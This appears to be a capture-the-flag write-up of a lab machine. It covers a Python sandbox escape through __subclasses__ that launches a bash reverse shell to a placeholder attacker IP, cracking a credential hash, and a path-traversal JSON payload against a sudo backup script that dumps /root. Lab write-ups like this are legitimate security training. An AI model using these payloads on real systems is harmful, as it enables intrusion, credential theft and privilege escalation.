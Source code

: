# 👨‍💻Code

## 🧠Summary
 >The machine hosted a restricted Python code editor on port 5000, blacklisting keywords like import and os. After discovering that subprocess.Popen was accessible via __subclasses__()[317], I crafted a reverse shell payload to gain Docker access. Inside the container, I found a database.db containing hashed credentials. After cracking the hash, I SSH’ed into the main system. Privilege escalation was achieved via a vulnerable backy.sh script that processed a crafted JSON payload to dump /root via a .tar file, revealing the root flag.

## ↘️ACSII Visual
```css
[ Code Editor ("port 5000") ]
           ↓
[ Reverse Shell via __subclasses__ ]
           ↓
[ Docker Shell → Find "database.db" ]
           ↓
[ Crack Hash → SSH → sudo -l ]
           ↓
[ Exploit "backy.sh" → Root Access ]
```

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v 10.10.11.62
  ```
  - The result of the nmap scan is ![](./screenshots/nmap_scan.png)
  - The ssh and port 5000 which host http is found open

## 🌐Step 2 (Web enumeration)
- Tried web enumeration and subdomain enumeration and negative

## 📌Step 3 (Loop hole)
- Finally came to the conclusion to use the code editor to exploit the system
- Tried to write a reverse shell program by importing the module socket and failed
- The word import is blacklisted tried to bypass it using "__import__()" still failed
- Tried to find what all modules are present and found popen which is a submodule of subprocess
- Exploited this using the code
  ```bash
  raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))
  ```
- Used netcat to connect to my ip address and got a docker bin
- Manually searched the directories manually and found database.db
- Dumped the database.db and got the username and password hash

## 🔐Step 4 (password cracking)
- Stored the password hash inside a hash.txt file
- Used john and wordlist rockyou.txt to crack the hash and successfully cracked the password

## ⚓Step 5 (Foothold)
- ssh into the machine using the obtained hash and username
- Captured the user flag from the home directory
- Used sudo -l and found out that a bash program called backy can be exploited
- Searched in the net for info and found out it uses a json input and give a .tar file output which dumps what we gave into the json file
- Found a json exploit in the net for this
  ```json
  {
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
    ]
  }
  ```
- It dumped a .tar file and extracted the tar file
- The extracted file contain a root directory in which the root flag was present
- Captured the root flag 🏴
